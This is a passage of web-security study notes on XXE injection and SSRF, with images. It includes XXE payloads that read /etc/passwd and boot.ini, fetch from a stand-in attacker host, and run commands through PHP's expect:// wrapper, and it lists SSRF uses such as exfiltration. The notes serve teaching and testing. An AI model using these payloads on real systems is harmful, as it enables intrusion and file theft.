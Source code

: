   ![image-20210708232845785](images/image-20210708232845785.png)

### XXE Variants

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "expect://id" >]> (rare)
```

### XXE Code Execution

- PHP has a module called `expect` that lets you run a command as if it was a file by using the expect protocol. **If installed** you can thus use XXE to get code execution 

  ![image-20210708233029355](images/image-20210708233029355.png)

## Server Side Request Forgery (SSRF)

- Tricking web application to make request to internal system behalf of attacker. Typically works on URL based input by users. E.g. Image import function from URL.
  - Possible to use other URLs, e.g. **file://, phar://, gopher://, data://**and **dict://**
- You can:
  - Enumerate internal/external services.
  - Exfiltrate data.
  - Abuse API calls.
  - Invoke Cloud Services APIs.

### Uniform Resource Identifier (URI)
